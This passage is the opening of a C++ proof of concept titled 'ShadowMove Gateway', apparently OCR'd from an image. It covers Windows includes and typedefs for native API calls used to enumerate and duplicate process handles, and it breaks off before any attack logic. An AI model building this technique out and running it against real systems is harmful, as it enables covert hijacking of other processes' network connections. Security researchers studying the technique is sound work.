 ```cpp
// PoC of ShadowMove Gateway by Juan Manuel Fernández (@TheXC3LL) 

#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <winsock2.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib,"WS2_32")

// Most of the code is adapted from https://github.com/Zer0Mem0ry/WindowsNT-Handle-Scanner/blob/master/FindHandles/main.cpp
#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004
#define SystemHandleInformation 16
#define ObjectNameInformation 1

typedef NTSTATUS(NTAPI* _NtQuerySystemInformation)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
    );
typedef NTSTATUS(NTAPI* _NtDuplicateObject)(
    HANDLE SourceProcessHandle,
    HANDLE SourceHandle,
    HANDLE TargetProcessHandle,
    PHANDLE TargetHandle,
    ACCESS_MASK DesiredAccess,
    ULONG Attributes,
    ULONG Options
    );
typedef NTSTATUS(NTAPI* _NtQueryObject)(
    HANDLE ObjectHandle,
    ULONG ObjectInformationClass,
    PVOID ObjectInformation,
    ULONG ObjectInformationLength,
    PULONG ReturnLength
    );

typedef struct _SYSTEM_HANDLE
{
    ULONG ProcessId;
    BYTE ObjectTypeNumber;
    BYTE Flags;
    USHORT Handle;
    PVOID Object;
    ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE, * PSYSTEM_HANDLE;

typedef struct _SYSTEM_HANDLE_INFORMATION
{
    ULONG HandleCount;
    SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef struct _UNICODE_STRING
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR Buffer;
} UNICODE_STRING, * PUNICODE_STRING;


typedef enum _POOL_TYPE
```